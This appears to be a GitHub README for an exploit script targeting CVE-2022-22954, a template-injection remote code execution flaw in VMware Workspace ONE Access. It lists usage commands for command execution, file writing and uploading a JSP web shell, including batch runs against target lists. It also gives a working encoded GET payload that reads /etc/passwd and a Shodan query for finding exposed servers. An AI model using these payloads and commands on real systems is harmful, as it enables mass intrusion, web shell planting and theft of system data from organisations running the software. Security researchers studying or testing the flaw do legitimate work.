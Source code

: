 # CVE-2022-22954
VMware Workspace ONE Access SSTI (RCE)
&nbsp;

## Usage
```bash
// Single target vulnerability detection
python CVE-2022-22954.py -u https://x.x.x.x

// Command execution
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// Write file
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// Upload a file, Windows needs to specify the path to set the file name
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// Upload to the specified path
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// Batch detection, consistent usage
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```
&nbsp;

## POC
Use following GET request to execute ```cat /etc/passwd``` command.
```
TARGET.COM/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
 ```
 ```
 Decoded Payload:
 ${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
 ```
 ![poc](./CVE-2022-22954-poc.png)
 [![Watch the video](./CVE-2022-22954-poc.png)](https://www.youtube.com/watch?v=YVIW-uKgvPI)
&nbsp;

## Shodan Query:
```
http.favicon.hash:-1250474341 
```
&nbsp;

## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;

## Credit
[sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)'s github page.</br>
[MLX15](https://github.com/MLX15/CVE-2022-22954)'s github page.</br>
[Punit Darji](https://www.youtube.com/watch?v=YVIW-uKgvPI)'s youtube video.</br>
